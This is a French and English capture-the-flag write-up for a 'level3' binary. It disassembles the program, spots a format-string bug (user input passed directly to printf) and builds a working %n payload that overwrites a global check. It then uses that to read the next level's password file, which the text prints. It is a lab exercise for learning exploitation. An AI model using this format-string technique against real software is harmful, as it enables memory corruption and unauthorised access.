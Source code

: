 ```
objdump -M intel -d level3
```

Nous observons que la fonction main appelle une fonction "v".
Qui elle même appelle printf, qui peut être exploitée.

```
 80484ad:	a1 60 98 04 08       	mov    eax,ds:0x8049860
 80484b2:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484b6:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200
 80484bd:	00
 80484be:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484c4:	89 04 24             	mov    DWORD PTR [esp],eax
 80484c7:	e8 d4 fe ff ff       	call   80483a0 <fgets@plt>
 80484cc:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484d2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484d5:	e8 b6 fe ff ff       	call   8048390 <printf@plt>
```
 This prints the pointer passed as first argument on fgets() (printf(eax)).

```
 80484da:	a1 8c 98 04 08       	mov    eax,ds:0x804988c
 80484df:	83 f8 40             	cmp    eax,0x40
 80484e2:	75 34                	jne    8048518 <v+0x74>
```
This part is intersting, it makes a comparison, in case it's not equal it jumps to this adress 0x8048518.
The goal is to have this comparison true then we will have succeded.
To achieve this we have to change the value at 0x804988c using printf.

Trouvons notre offset, nous chercherons la valeur ascii de "a" soit 61:
```
python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x"' | ./level3
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078
```
M doit faire 64 bits donc nous ajouterons 60 bits de padding

adresse : \x8c\x98\x04\x08" ==  (  0x080484da <+54>:	mov    0x804988c,%eax) -> adresse Pointeur 
padding:  "a" * 60 64 - 4 == 60 
modification : %4\$n  -> nbre de caractere ecrit (64)


```
python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' > /tmp/exploit
cat /tmp/exploit - | ./level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
